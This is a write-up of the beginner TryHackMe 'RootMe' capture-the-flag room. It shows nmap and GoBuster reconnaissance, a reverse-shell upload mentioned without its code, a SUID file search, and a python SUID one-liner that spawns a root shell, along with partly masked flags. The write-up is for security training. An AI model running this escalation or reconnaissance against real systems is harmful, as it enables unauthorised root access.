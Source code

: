 # RootMe

A ctf for beginners, can you root me?

[RootMe](https://tryhackme.com/room/rrootme)

## Chủ đề của

- Network Enumeration
- Web Enumeration
- Abusing SUID/GUID

## Lưu trữ phụ lục

Password: `1 kn0w 1 5h0uldn'7!`

## Deploy the machine

Connect to TryHackMe network and deploy the machine. If you don't know how to do this, complete the OpenVPN room first.

1. Deploy the machine

`No answer needed`

## Reconnaissance

First, let's get information about the target.

```
bibo318@parrot:~/CTFs/tryhackme/RootMe$ sudo nmap -A -Pn -sC -sV -O 10.10.16.101
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-04 13:09 CEST
Nmap scan report for 10.10.16.101
Host is up (0.038s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/4%OT=22%CT=1%CU=36022%PV=Y%DS=2%DC=T%G=Y%TM=5F79AD9
OS:6%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS(
OS:O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST11
OS:NW6%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(
OS:R=Y%DF=Y%T=40%W=F507%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS
OS:%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=
OS:Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=
OS:R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T
OS:=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=
OS:S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   37.33 ms 10.8.0.1
2   37.59 ms 10.10.16.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.41 seconds
```

1. Scan the machine, how many ports are open?

`2`

2. What version of Apache are running?

`2.4.29`

3. What service is running on port 22?

`SSH`

4. Find directories on the web server using the GoBuster tool.

- [http://10.10.16.101/panel/](http://10.10.16.101/panel/)
- [http://10.10.16.101/uploads/](http://10.10.16.101/uploads/)

1. What is the hidden directory?

`/panel/`

## Getting a shell

Find a form to upload and get a reverse shell, and find the flag.

1. user.txt

`THM{V0N318*****y0u_g0t_a_sh3ll12**123:))}`

## Privilege escalation

Now that we have a shell, let's escalate our privileges to root.

1. Search for files with SUID permission, which file is weird?

```
bash-4.4$ find / -user root -perm /4000 2> /dev/null
find / -user root -perm /4000 2> /dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9665/bin/mount
/snap/core/9665/bin/ping
/snap/core/9665/bin/ping6
/snap/core/9665/bin/su
/snap/core/9665/bin/umount
/snap/core/9665/usr/bin/chfn
/snap/core/9665/usr/bin/chsh
/snap/core/9665/usr/bin/gpasswd
/snap/core/9665/usr/bin/newgrp
/snap/core/9665/usr/bin/passwd
/snap/core/9665/usr/bin/sudo
/snap/core/9665/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9665/usr/lib/openssh/ssh-keysign
/snap/core/9665/usr/lib/snapd/snap-confine
/snap/core/9665/usr/sbin/pppd
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
```

`/usr/bin/python`

2. Find a form to escalate your privileges.

`No answer needed`

3. root.txt

```
bash-4.4$ /usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
THM{V0N318*****pr1v1l3g3_3sc4l4t10n}
#
```
